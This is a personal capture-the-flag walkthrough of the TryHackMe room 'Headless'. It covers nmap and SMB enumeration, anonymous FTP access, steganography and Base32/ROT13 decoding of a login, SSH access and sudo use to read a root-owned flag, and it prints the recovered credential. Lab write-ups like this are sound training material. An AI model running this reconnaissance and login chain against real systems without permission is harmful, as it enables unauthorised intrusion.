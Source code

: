 # Headless Hacking Machine Rough Walkthrough

Author : Kartik Bhushan
Created on : 18-12-2021 

This repository  contains the files and the notes for the the tryhackme Room - Headless

## Machine IP - 10.10.110.189

## Ennumeration - Using Nmap 
```
Nmap command in use - nmap -sS -A -T4 -p- 10.10.110.189 -oN headless_nmap.txt  
Nmap scan report for 10.10.110.189
Host is up (0.14s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.17.35.42
|      Logged in as ftp
|      TYPE: ASCII
|      Session bandwidth limit in byte/s is 2048000
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Dec 12 00:41 11:11pm
| drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:24 cisco
| drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:25 juniper
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 12 01:11 n33l3sh
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
5522/tcp open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)


This is just the main Snippet of the Scan the full detailed scan file is named headless_nmap.txt
```

Additional nmap to enumerate deeper and find more 
```
sudo nmap -p 445 --script smb-enum-shares 10.10.110.189

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 12:34 EST
Nmap scan report for 10.10.110.189
Host is up (0.15s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.110.189\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Centos server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.110.189\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 16.83 seconds

Finding - Anon Login is allowed 
```

## Web Enumeration - Enumerating the Apache webpage on PORT 80
```
Command - 
sudo gobuster dir -u http://10.10.110.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

Did not find anyting intresting in this case
```

The Box time ended so I had to restart Hence the New IP address - 10.10.231.191

## Anon login into the FTP server 
```
ftp 10.10.231.191
Connected to 10.10.231.191.
220 Welcome to blah FTP service.
Name (10.10.231.191:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Dec 12 00:41 11:11pm
drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:24 cisco
drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:25 juniper
drwxr-xr-x    2 ftp      ftp          4096 Dec 12 01:11 n33l3sh
226 Directory send OK.

Going through all the directories - Findings
11:11pm - goodiya.txt.gpg
		- happiness.jpeg

Hidden .readme.md file "ls -la" revealed it out 
n33l3sh - .readme.md

```

## Hidden Readme File - Intresting Content -
```
                                             // h3atwav3s//
???:I just wonder what you're dreaming of
When you sleep and smile so comfortable
I just wish that i could give you that
That look that's perfectly un-sad.

goodiya: wait.. i think I knew this song!, what you want to describe...

???:I have a some hidden message in this.. for you, 

```

### Findings - 
- Song name - Glass Animals by Heat Waves

### Happiness.jpeg
```
Tried online steagnography tool - https://futureboy.us/stegano/decinput.html

Passphrase tried - glassanimals
		 - heatwaves
		 - h3atwav3s

Passphrase Worked - h3atwav3s
Extrated Text - MEZTG6JTMZ2TU5TZMJUXE3DCNA======

Intially looked Base64 so check it on cyberchef - Error - Data is not a valid byteArray: [48,70,83,27,162,83,49...

Finally landed upon a function called "Magic" - "The Magic operation attempts to detect various properties of the input data and suggests which operations could help to make more sense of it."

Found the Base32 decoding - From_Base32('A-Z2-7=',false)
Decoded String - a33y3fu:vybirlbh
```

### Further Decoding the Base32 String - 

The Base32 string looked like a rot algorithm(Rotation cipher) because I had come across a directory called : "n33l3sh" - "a33y3fu"

Rot13 Decoding - n33l3sh:iloveyou .

This looked like a user login with password :) les gooo.


### Getting the flag - 

Looking at the previous nmap scan there was a port running 
- OpenSSH on Port : 5522

Trying to Login in via SSH
```
ssh n33l3sh@10.10.231.191 -p 5522          

The authenticity of host '[10.10.231.191]:5522 ([10.10.231.191]:5522)' can't be established.
ED25519 key fingerprint is SHA256:zTCmi/I/i2JiR6esjibnIgM3tHHB76gAeDEZ5tCMYAw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.231.191]:5522' (ED25519) to the list of known hosts.
The Quieter you are, the More you hear!!
n33l3sh@10.10.231.191's password: 
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
The Quieter you are, the More  you can hear
Last login: Sun Dec 12 02:46:03 2021
n33l3sh@Centos:~$ ls

```
Lets Go we are in time to get that Flag once and for all 

### Flag Hunt - 

```
n33l3sh@Centos:~$ ls -la
total 36
drwxr-xr-x 4 n33l3sh n33l3sh 4096 Dec 12 02:56 .
drwxr-xr-x 4 root    root    4096 Dec 11 23:57 ..
lrwxrwxrwx 1 n33l3sh n33l3sh    9 Dec 12 02:56 .bash_history -> /dev/null
-rw-r--r-- 1 n33l3sh n33l3sh  220 Dec  8 05:07 .bash_logout
-rw-r--r-- 1 n33l3sh n33l3sh 3637 Dec  8 05:07 .bashrc
drwx------ 2 n33l3sh n33l3sh 4096 Dec  8 06:49 .cache
-rw------- 1 root    root      46 Dec 11 23:56 .flag.txt
drwx------ 2 n33l3sh n33l3sh 4096 Dec 12 00:06 .gnupg
-rwxrwxrwx 1 root    root      64 Dec 12 02:51 .home.sh
-rw-r--r-- 1 n33l3sh n33l3sh  675 Dec  8 05:07 .profile

```
I finally see the Flag file - '.flag.txt'

```
n33l3sh@Centos:~$ ls -la
total 36
drwxr-xr-x 4 n33l3sh n33l3sh 4096 Dec 12 02:56 .
drwxr-xr-x 4 root    root    4096 Dec 11 23:57 ..
lrwxrwxrwx 1 n33l3sh n33l3sh    9 Dec 12 02:56 .bash_history -> /dev/null
-rw-r--r-- 1 n33l3sh n33l3sh  220 Dec  8 05:07 .bash_logout
-rw-r--r-- 1 n33l3sh n33l3sh 3637 Dec  8 05:07 .bashrc
drwx------ 2 n33l3sh n33l3sh 4096 Dec  8 06:49 .cache
-rw------- 1 root    root      46 Dec 11 23:56 .flag.txt
drwx------ 2 n33l3sh n33l3sh 4096 Dec 12 00:06 .gnupg
-rwxrwxrwx 1 root    root      64 Dec 12 02:51 .home.sh
-rw-r--r-- 1 n33l3sh n33l3sh  675 Dec  8 05:07 .profile
n33l3sh@Centos:~$ sudo whoami
sudo: unable to resolve host Centos
root
n33l3sh@Centos:~$ sudo cat .flag.txt
sudo: unable to resolve host Centos
flag{There is the flag here}
n33l3sh@Centos:~$ LETS GO

```
